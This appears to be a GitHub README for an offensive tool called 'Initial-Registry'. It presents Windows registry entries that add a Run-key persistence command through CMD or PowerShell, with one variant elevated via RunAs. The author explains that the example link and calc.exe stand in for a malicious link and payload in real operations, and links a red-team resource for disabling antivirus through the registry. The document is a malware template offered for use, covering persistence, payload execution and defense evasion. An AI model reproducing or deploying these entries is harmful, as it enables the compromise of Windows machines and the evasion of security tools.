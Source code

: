 # Initial-Registry
It is a registry file that performs malicious activities when the refresh button is pressed, Such as start a malicious link, making an execution for payload, or running a malicious command line in CMD or PowerShell
![1706749031823](https://github.com/S3N4T0R-0X0/Initial-Registry/assets/121706460/f5c7acd0-77a2-4410-80c4-4f8c095e7dee)

Specifically through the registry.

[HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run]
"TaskManagerURL"="cmd /c start http://www.example.com && calc.exe"

The harmful activities are carried out through the CMD, but the operator may also need to execute these activities from the PowerShell and not the CMD, which is why I put this other registry as an alternative to the CMD.

[HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run]
"TaskManagerURL"="powershell -Command \"Start-Process 'http://www.example.com'; Start-Process 'calc.exe' -Verb RunAs\""


Of course, in the real operation, Calc.exe will be replaced by payload, and example.com will be replaced by the malicious link. with all these malicious activities, you may be exposed to detection, and also since we use the Windows Registry in this operation, we may also use the Windows Registry or after the Windows registry to create a disable for defenses


https://github.com/S3N4T0R-0X0/Initial-Registry/assets/121706460/6e5b2591-3953-4a6b-b05f-81a405e8bf80

I used this site for resources to desible defenses through the Windows registry by setting Windows Registry  Activity in the disable.txt
https://swisskyrepo.github.io/InternalAllTheThings/redteam/persistence/windows-persistence/#disable-antivirus-and-security





